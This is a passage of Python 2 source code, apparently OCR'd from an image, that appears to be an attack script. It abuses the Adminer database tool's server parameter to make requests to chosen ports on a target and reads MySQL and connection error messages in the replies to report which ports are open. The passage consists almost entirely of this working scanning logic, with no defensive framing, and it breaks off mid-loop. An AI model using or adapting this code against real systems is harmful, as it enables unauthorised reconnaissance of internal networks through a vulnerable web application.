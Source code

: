              s.send('GET /'+ADMINER_URI+'/?server='+TARGET+':'+aPort+'&username= HTTP/1.1\r\nHost: '+TARGET+'\r\n\r\n')
    
         except Exception as e:
              print str(e)
              s.close()
              return

         while True:
              try:
                 RES=s.recv(512)
                 ###print RES
                 ###Should see HTTP/1.1 403 not 200
                 if RES.find('HTTP/1.1 200 OK')!=-1:
                     print 'port '+aPort +  ' open'
                     port_lst.append(aPort+' open')
                     s.close()
                     break
                    
                 if RES.find('400 Bad Request')!=-1:
                     print '400 Bad Request, check params'
                     s.close()
                     break
                     raw_input()                  

                 lst=re.findall(r"([^\n<div class='error'>].*connect to MySQL server on.*[^</div>\n])|(Lost connection to MySQL server at.*)|(MySQL server has gone away.*)"+
                             "|(No connection could be made because the target machine actively refused it.*)|(A connection attempt failed.*)|(HTTP/1.1 200 OK.*)", RES)     
        
                 if lst:
                      status=str(lst)
                      if status.find('connect to MySQL')!=-1:
                          if PRINT_CLOSED:
                              print 'port '+ aPort +  ' closed'
                          s.close()
                          break
                      elif status.find('machine actively refused it.')!=-1:
                          if PRINT_CLOSED:
                              print 'port '+ aPort +  ' closed'
                          s.close()
                          break
                      elif status.find('A connection attempt failed')!=-1:
                          if PRINT_CLOSED:
                               print 'port '+ aPort +  ' closed'
                          s.close()
                          break
                      elif status.find('reading initial communication packet')!=-1:
                          print 'port '+aPort +  ' open'
                          port_lst.append(aPort+' open')
                          s.close()
                          break
                      elif status.find('MySQL server has gone away')!=-1:
                          print 'port '+aPort +  ' open'
                          port_lst.append(aPort+' open')
                          s.close()
                          break
                      elif status.find('Bad file descriptor')!=-1:
                          print 'port '+aPort +  ' open'
                          port_lst.append(aPort+' open')
                          s.close()
                          break
                      elif status.find('Got packets out of order')!=-1:
                          print 'port '+aPort +  ' open'
                          s.close()
                          break